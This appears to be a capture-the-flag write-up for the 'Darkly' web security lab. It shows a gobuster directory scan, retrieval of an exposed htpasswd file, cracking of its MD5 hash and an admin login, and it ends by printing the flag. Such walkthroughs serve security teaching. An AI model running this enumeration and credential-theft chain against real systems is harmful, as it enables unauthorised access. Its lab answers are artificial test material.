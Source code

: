 Directory Fuzzing
=================

https://owasp.org/www-community/attacks/Brute_force_attack

Like always, after messing around for a while with the landing page, it's time for some good old fashioned directory busting.


```
hakim@mentos42:~/42/Darkly$ gobuster dir --exclude-length 975 --url http://192.168.56.104 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 193] [--> http://192.168.56.104/images/]
/admin                (Status: 301) [Size: 193] [--> http://192.168.56.104/admin/]
/audio                (Status: 301) [Size: 193] [--> http://192.168.56.104/audio/]
/css                  (Status: 301) [Size: 193] [--> http://192.168.56.104/css/]
/includes             (Status: 301) [Size: 193] [--> http://192.168.56.104/includes/]
/js                   (Status: 301) [Size: 193] [--> http://192.168.56.104/js/]
/fonts                (Status: 301) [Size: 193] [--> http://192.168.56.104/fonts/]
/errors               (Status: 301) [Size: 193] [--> http://192.168.56.104/errors/]
/whatever             (Status: 301) [Size: 193] [--> http://192.168.56.104/whatever/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

Non-existing URIs, like `/nonexistent` return a 404 error page, however, with a 200 HTTP status code, which confuses gobuster. So we can't rely on non-200 status codes, and we have to base it on the response Content Length (the 404 not found page always has the same content length, 975 in this case).

There are a couple of juicy looking endpoints, like /admin, /whatever, /errors, /audio and such. let's focus on /whatever for now.

The `/whatever` URI shows a directory list with 1 file: `htpasswd`

```
hakim@mentos42:~$ curl -L http://192.168.56.104/whatever
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>

hakim@mentos42:~$ curl -L http://192.168.56.104/whatever/htpasswd
root:437394baff5aa33daa618be47b75cb49
```

This file contains a `user:password` pair, with the password being a simple MD5 hash. Usually, for simple hashes with no salts I use the [CrackStation](https://crackstation.net/) webpage to obtain the cleartext password.

It shows us that the cleartext password is: `qwerty123@`. I wonder where could I introduce this user's credentials.... 
Earlier we discovered the `/admin` page. The content of this page is a simple user/passwd form. We introduce the credentials and we obtain the flag.

`http://192.168.56.104/admin`
The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

